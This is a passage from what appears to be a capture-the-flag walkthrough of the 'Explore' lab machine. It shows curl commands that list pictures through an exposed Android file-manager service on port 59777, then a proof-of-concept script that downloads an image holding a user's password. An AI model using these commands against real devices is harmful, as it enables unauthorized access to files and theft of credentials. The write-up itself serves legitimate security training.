 Enumerating this port, it's actually the `listPics` command that helps
for Explore:



    oxdf@parrot$ curl 10.10.10.247:59777 -d '{"command": "listPics"}'
    [
    {"name":"concept.jpg", "time":"4/21/21 02:38:08 AM", "location":"/storage/emulated/0/DCIM/concept.jpg", "size":"135.33 KB (138,573 Bytes)", },
    {"name":"anc.png", "time":"4/21/21 02:37:50 AM", "location":"/storage/emulated/0/DCIM/anc.png", "size":"6.24 KB (6,392 Bytes)", },
    {"name":"creds.jpg", "time":"4/21/21 02:38:18 AM", "location":"/storage/emulated/0/DCIM/creds.jpg", "size":"1.14 MB (1,200,401 Bytes)", },
    {"name":"224_anc.png", "time":"4/21/21 02:37:21 AM", "location":"/storage/emulated/0/DCIM/224_anc.png", "size":"124.88 KB (127,876 Bytes)", },
    ]



One of the images is named `creds.jpg`. I'll get it:



    oxdf@parrot$ python poc.py --get-file /storage/emulated/0/DCIM/creds.jpg --host 10.10.10.247
    [*] Getting file: /storage/emulated/0/DCIM/creds.jpg
            from: 10.10.10.247
    [*] Server responded with: 200
    [*] Writing to file: creds.jpg



The image has kristi's password:

